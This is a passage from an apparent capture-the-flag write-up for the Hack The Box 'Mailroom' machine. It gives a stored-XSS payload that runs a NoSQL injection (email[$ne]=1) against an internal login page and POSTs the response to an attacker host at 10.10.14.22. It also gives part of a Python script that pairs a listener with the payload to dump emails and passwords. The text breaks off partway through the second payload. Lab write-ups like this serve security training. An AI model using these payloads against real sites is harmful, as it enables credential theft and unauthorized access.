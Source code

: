 ```jsx
<script>
    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {{    
      if (mail1req.readyState == 4) {{    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.22/", false);    
        exfilreq.send(mail1req.response);    
      }}    
    }};    
    mail1req.open('POST', 'http://staff-review-panel.mailroom.htb/auth.php', false);
    mail1req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    var params = "email[$ne]=1&password[$ne]=1"; 
    mail1req.send(params);
</script>
```

This returned a successful response exactly but it sends a 2FA token.

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_6.png)

Since we do not have any way of reading mail, we can use this NoSQL injection to dump the credentials, Nikhil made the following payload script which was used to dump the `email` and `password` :

```python
import socket
import http.server
import socketserver
import threading
import requests

result = ""
final_payload = ""

class MyRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        global result
        
        content_length = int(self.headers['Content-Length'])
        body = self.rfile.read(content_length)

        if "Check your inbox for an email with your 2FA token" in str(body):
            result = True

        self.send_response(200)
        self.end_headers()
        event.set()

def start_server():
    with socketserver.TCPServer(("", 80), MyRequestHandler) as httpd:
        print("Server listening on port 80...")
        httpd.serve_forever()

def send_request(payload):
    url = "http://10.10.11.209:80/contact.php"
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}

    xss_payload = f"""
    <script>
    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {{    
      if (mail1req.readyState == 4) {{    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.62/", false);    
```